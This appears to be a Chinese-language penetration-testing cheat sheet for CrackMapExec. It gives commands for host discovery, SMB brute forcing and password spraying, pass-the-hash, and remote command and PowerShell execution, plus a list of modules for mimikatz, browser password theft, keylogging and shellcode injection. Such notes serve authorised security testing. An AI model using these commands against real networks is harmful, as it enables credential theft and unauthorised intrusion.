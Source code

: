 #### 信息收集
	返回活动主机
	>crackmapexec smb 192.168.0.0/24
![image](/assets/Pentest_Note/master/img/252.png)
#### 爆破
	支持协议ssh,smb,winrm,mssql,http
	爆破smb协议，两台机器，一个用户名多个密码
	>crackmapexec smb 192.168.0.98 192.168.0.55 -u username1 -p password1 password2
	>crackmapexec smb 192.168.0.0/24 -d zone.com -u y -p 'password' --shares
![image](/assets/Pentest_Note/master/img/253.png)

	密码喷射
	>crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
	指定字典
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -p /tmp/pass.txt
	Hash爆破
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -H /tmp/ntlm.txt
#### 可用模块
	日志的保存位置
	~/.cme/logs
	查看协议可用后续模块
	>crackmapexec smb -L
![image](/assets/Pentest_Note/master/img/254.png)

	常用的模块
	Get-ComputerDetails获取计算机信息
	Bloodhound 执行一个BloodHound脚本获取信息
	empire_exec 与empire交互
	enum_avproducts 列举AV产品
	enum_chrome 获取目标chrome中保存的密码
	get_keystrokes 键盘记录
	get_netdomaincontroller 列出所有域控制器
	get_netrdpsession 列出活动的RDP会话
	gpp_autologin 从域控中registry.xml查找自动登录的账户密码
	gpp_password 组策略凭据中返回GPP密码
	invoke_sessiongopher 保存putty,winscp,filezilla,superputty rdp的session
	invoke_vnc 注入一个vnc客户端到内存
	met_inject 与msf交互
	mimikatz 调用mimikatz模块
	mimikatz_enum_chrome 使用mimikatz解密chrome保存的密码
	mimikatz_enum_vault_creds 解密windows凭据管理器中保存的密码
	mimikittenz 执行咪咪猫(windows密码获取软件)
	multirdp 允许多用户登录RDP
	netripper 通过API hooking截取平常
	pe_inject DLL/EXE注入
	rdp 开启或关闭RDP
	shellcode_inject 注入shellcode
	tokens 列举可用token
	uac 查看UAC是否开启
	wdigest 开启或关闭wdigest
	web_delivery 执行exploit/multi/script/web_delivery模块
	查看模块的选项
	>crackmapexec smb -M module --options
![image](/assets/Pentest_Note/master/img/255.png)

	使用方式
	>crackmapexec smb <target(s)> -u user -p 'P@ssw0rd' -M module -o 参数=值
![image](/assets/Pentest_Note/master/img/256.png)
#### PTH
	>crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
	>crackmapexec smb <target(s)> -u username -H NTHASH
#### 执行命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -x 'command'
![image](/assets/Pentest_Note/master/img/257.png)

	-X执行powershell命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -X 'POWESHELL'